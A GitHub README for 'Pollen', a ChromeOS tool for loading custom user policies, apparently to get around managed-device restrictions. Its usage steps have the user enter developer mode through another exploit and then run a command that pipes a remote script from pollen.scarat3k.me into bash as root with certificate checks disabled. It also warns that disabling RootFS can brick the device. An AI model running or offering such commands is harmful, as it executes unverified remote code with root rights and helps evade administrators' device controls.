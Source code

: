 # Pollen
Pollen is an exploit that allows you to load custom User Policies.

## How To Use
- Note: Devmode **NEEDS** to be enabled. Use some sort of exploit like sh1mmer to enable devmode
- Open Crosh
- Type In `shell`
- Type In `sudo curl -k https://pollen.scarat3k.me/Pollen.sh | bash`

## Different Mods
- 1 Is Non RootFS Version
  - Must Be Ran Every Time Apon Boot

- 2 Is RootFS Version
  - Requires RootFS Disabled
  - Note Disabeling RootFS And Entering Verified Mode **WILL** Brick You Chromebook
  - To Disable RootFS Run This: `sudo curl -k https://pollen.scarat3k.me/RootFS.sh`

## How It Works
It works by loading a custom user policy in to CrOS. (Similar to how policies on windows work)\
Using this we can either disenable RootFS or temporarily to load it.\
CrOS does not have the folder to load it built-in, however the src code is still there so we can manually create it.\
Then simpily we just create the file and restart.

## Credits
- Pollen Developer - Scarat3k
- Discovery Of Exploit - Rafflesia
- Original Script Developer - OlyB
- Logo - Nitelite
